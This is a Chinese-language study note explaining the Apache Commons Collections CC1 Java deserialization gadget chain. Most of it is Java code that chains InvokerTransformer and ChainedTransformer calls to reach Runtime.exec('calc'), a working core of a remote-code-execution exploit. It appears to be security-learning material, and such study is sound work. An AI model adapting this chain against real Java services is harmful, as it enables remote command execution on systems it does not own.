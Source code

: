 （详情代码 **参照[理想情况下.java]**）

---

### 理性情况下需要解决的两个问题（重要）：

- `Runtime` 对象不可序列化，需要通过反射将其变成可以序列化的形式。

- `sun.reflect.annotation.AnnotationInvocationHandler.readObject()中的setValue()` 的传参，是需要传 `Runtime` 对象的且要进入两个 if 判断

  

#### 1.第一个问题的两种写法

(本质一样，但第二种写法减少代码复用)：

即将 （详情代码 **参照[理想情况下.java]**）

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec"  
 , new Class[]{String.class}, new Object[]{"calc"});
```

改写成以下两种格式之一：

1-1.

```java
// 对应 Method runtimeMethod = r.getMethod("getRuntime");
        Class c = Runtime.class;
        Method runtimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}).transform(c);

// 对应 Runtime runtime = (Runtime) runtimeMethod.invoke(null,null);
Runtime runtime1 = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null,null}).transform(runtimeMethod);

// 执行calc
runtimeClass1.getMethod("exec", String.class).invoke(runtime1,"calc");
```

共同点：

- 格式都为 `new InvokerTransformer().transform()`
- 后一个 `transform()` 方法里的参数都是前一个的结果

为什么这么写：

**参照[命令执行的关键]**



1-2. 或者写成这种：

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod"
                , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke"
                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec"
                , new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```
